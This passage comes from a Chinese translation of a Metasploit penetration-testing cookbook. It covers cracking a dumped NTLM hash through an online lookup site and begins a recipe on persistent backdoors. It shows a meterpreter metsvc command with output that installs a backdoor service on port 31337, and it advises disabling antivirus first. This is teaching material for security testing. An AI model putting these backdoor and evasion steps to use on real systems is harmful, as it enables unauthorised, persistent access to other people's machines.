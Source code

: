 有一个非常流行的网站用于解密 NTLM/LM 哈希[`www.md5decrypter.co.uk/`](http://www.md5decrypter.co.uk/)。它通过将哈希与其庞大的哈希数据库进行匹配来找到密码。这是一种有效且快速破解简单和弱密码的技术。以下截图显示了我们之前转储的哈希的解码结果：

![在线密码解密](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/mtspl-pentest-cb/img/7423_06_01.jpg)

如您所见，我们的输入哈希已找到匹配项，相应的可读密码为 123。

需要注意的一点是，破解密码完全取决于其强度。相对于复杂密码，较弱的密码会更容易破解。复杂密码将生成在线数据库中不存在的哈希。因此，考虑使用基于彩虹表的破解器。有关此主题的更多信息可以在以下 URL 找到：

[`bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html`](http://bernardodamele.blogspot.in/#!http://bernardodamele.blogspot.com/2011/12/dump-windows-password-hashes.html)。

# 建立与后门的持久连接

我们从一个预入侵技术开始这本书，重点是信息收集。然后，我们继续前进到利用阶段，在那里我们学习了不同的方式来妥协目标。然后，我们学习了一些有用的后期利用技术，可以在妥协目标之后实施。现在，在这个配方中，我们将学习**永久利用技术**，在这里我们将尝试与我们的目标建立持久连接，以便我们可以随意连接到它。作为攻击者，或目标机器，不能总是可用，对目标进行后门处理可以有效地建立持久连接。

## 准备工作

Meterpreter 为我们提供了两个脚本，可以执行对目标进行后门处理的任务。它们是 Metsvc 和 Persistence。这两个脚本的工作方式类似。让我们逐一处理这两个脚本。

### 注意

这两个 meterpreter 脚本都在目标系统上创建文件，因此可能会触发防病毒软件的警报。因此建议在运行这些脚本之前关闭防病毒程序。

## 如何做...

Metsvc 脚本通过在目标机器上创建临时文件，如 DLL、后门服务器和服务来运行。该脚本还可以启动匹配的 multi/handler 以自动连接到后门。`-A`参数用于此目的。让我们在我们的 Windows 7 目标机器上运行脚本并分析结果。

```
meterpreter > run metsvc -h
OPTIONS:
-A Automatically start a matching multi/handler to connect to the service
-h This help menu
-r Uninstall an existing Meterpreter service (files must be deleted manually)
meterpreter > run metsvc -A
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\DARKLORD\AppData\Local\Temp\ygLFhIFX...
[*] >> Uploading metsrv.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service...
* Installing service metsvc
* Starting service
Service metsvc successfully installed. 
```

一旦后门文件成功上传，它将自动连接到端口 31337 上的 multi/handler。使用这个后门，我们可以随意连接到目标机器。

另一个有用的后门脚本是持久性脚本。它的工作方式类似于 Metscv，但它具有一些额外的功能，比如定期连接回目标，系统启动时连接回来，自动运行等等。让我们看看我们可以使用的不同选项。
